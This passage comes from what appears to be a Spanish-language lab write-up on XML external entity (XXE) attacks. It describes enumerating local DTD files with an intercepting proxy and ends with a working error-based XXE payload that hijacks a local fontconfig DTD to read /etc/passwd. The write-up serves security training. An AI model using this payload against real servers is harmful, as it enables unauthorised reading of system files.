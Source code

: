 ![paste](/assets/images/LabsXXE/lab9/paste.png)

Y por último desactivamos la Url-encode automatica:

![disable](/assets/images/LabsXXE/lab9/disable.png)

Y ahora que desactivemos esto para evitar que el archivo se url-encodee, lo que haremos es dar en start attack, y esperaremos a que cargue:

![resultado](/assets/images/LabsXXE/lab9/resultado.png)

Podemos apreciar que hay 5 DTD posibles que nos han respondido una respuesta diferente a 400 que significa el error.

Vemos que hay 4 respuestas que nos dan 200, y buscando en internet  algunas maneras de explotar estos DTD para inyectar nuestras entidades encontramos lo siguiente:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
```